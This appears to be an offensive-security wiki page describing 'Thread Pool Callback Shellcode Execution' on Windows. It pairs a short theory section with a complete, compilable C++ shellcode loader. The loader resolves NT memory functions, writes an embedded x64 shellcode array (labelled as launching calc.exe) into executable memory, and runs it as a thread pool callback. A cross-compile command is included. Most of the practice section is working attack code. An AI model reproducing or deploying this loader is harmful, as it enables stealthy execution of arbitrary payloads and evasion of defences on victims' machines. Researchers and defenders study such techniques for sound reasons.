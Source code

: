# Thread Pool Callback Shellcode Execution

## Theory

Thread Pool API is a mechanism in Windows that allows efficient management of multiple worker threads, enabling asynchronous execution of tasks. The API provides functions such as `CreateThreadpoolWork`, `SubmitThreadpoolWork`, and `WaitForThreadpoolWorkCallbacks` to create and execute work items in a thread pool. Attackers can exploit this functionality to execute shellcode in a stealthy manner by leveraging the thread pool callback mechanism.

#### Key Concepts:

* **Thread Pool**: A collection of worker threads managed by the Windows kernel, allowing efficient execution of asynchronous tasks.
* **Thread Pool Work Item**: A task submitted to the thread pool for execution.
* **Callback Function**: A function executed by a worker thread in response to a work item submission.
* **Execution Flow Hijacking**: By injecting shellcode into memory and registering it as a thread pool callback, an attacker can execute arbitrary code within the context of a legitimate process.

#### Execution Flow

1. **Shellcode Preparation & Memory Setup**:
   * The shellcode is embedded within the executable and stored as a byte array.
   * Memory is allocated in the current process using `NtAllocateVirtualMemory` with `PAGE_READWRITE` permissions.
   * The shellcode is copied to the allocated memory using `NtWriteVirtualMemory`.
   * The memory region containing the shellcode is then marked as `PAGE_EXECUTE_READ` using `NtProtectVirtualMemory`.
2. **Thread Pool Work Item Creation**:
   * `CreateThreadpoolWork` is called with the shellcode address as the callback function.
3. **Submitting the Work Item**:
   * `SubmitThreadpoolWork` enqueues the work item for execution.
4. **Execution**:
   * A worker thread from the pool picks up the work item and executes the shellcode.
5. **Cleanup**:
   * The work item is closed using `CloseThreadpoolWork` to clean-up

## Practice

{% tabs %}
{% tab title="C++" %}
The following code implements this technique:

{% code title="PoolCallback.cpp" %}
```cpp
#include <iostream>
#include <windows.h>
#include <psapi.h>
#include <tlhelp32.h>
#include <stdlib.h>
#include <tchar.h>

// Add these typedefs and function declarations for the NT functions
typedef NTSTATUS (NTAPI *pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

typedef NTSTATUS (NTAPI *pNtWriteVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    PVOID Buffer,
    SIZE_T NumberOfBytesToWrite,
    PSIZE_T NumberOfBytesWritten
);

typedef NTSTATUS (NTAPI *pNtProtectVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
);

// Define NTSTATUS if not already defined
#ifndef NTSTATUS
typedef LONG NTSTATUS;
#endif


DWORD WINAPI esc_main(LPVOID lpParameter)
{
    DWORD dwSize;
 
    // calc.exe shellcode
    unsigned char decoded[] = {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00};
    SIZE_T length = sizeof(decoded);


    // Load NT functions dynamically
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        std::cerr << "Failed to get handle to ntdll.dll" << std::endl;
        return 1;
    }
    
    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    pNtProtectVirtualMemory NtProtectVirtualMemory = (pNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
    
    if (!NtAllocateVirtualMemory || !NtWriteVirtualMemory || !NtProtectVirtualMemory) {
        std::cerr << "Failed to get addresses of NT functions" << std::endl;
        return 1;
    }

    //####SYSCALL####
    HANDLE hProc = GetCurrentProcess();
    PVOID base_addr = NULL;
    SIZE_T pnew = length;
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    NTSTATUS status;

    // Allocate memory for shellcode
    status = NtAllocateVirtualMemory(hProc, &base_addr, 0, &pnew, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Write shellcode to allocated memory
    status = NtWriteVirtualMemory(hProc, base_addr, decoded, pnew, &bytesWritten);
    if (status != 0) {
        std::cerr << "NtWriteVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Change memory protection to executable
    status = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&pnew, PAGE_EXECUTE_READ, &oldProtect);
    if (status != 0) {
        std::cerr << "NtProtectVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    std::cout << "Executing shellcode using Thread Pool API..." << std::endl;

    // Create thread pool work item with shellcode as callback
    PTP_WORK work = CreateThreadpoolWork((PTP_WORK_CALLBACK)base_addr, NULL, NULL);
    if (!work) {
        std::cerr << "CreateThreadpoolWork failed with error: " << GetLastError() << std::endl;
    }

    // Submit work item to thread pool
    SubmitThreadpoolWork(work);

    // Wait for work to complete
    WaitForThreadpoolWorkCallbacks(work, FALSE);
    CloseThreadpoolWork(work);
    
    std::cout << "Execution completed" << std::endl;
    return 0;
}

int main()
{

    esc_main(NULL);
    return 0;
}
```
{% endcode %}

We can compile it from linux using following command

```bash
x86_64-w64-mingw32-g++ PoolCallback.cpp -o PoolCallback.exe -std=c++20 -static
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait" %}
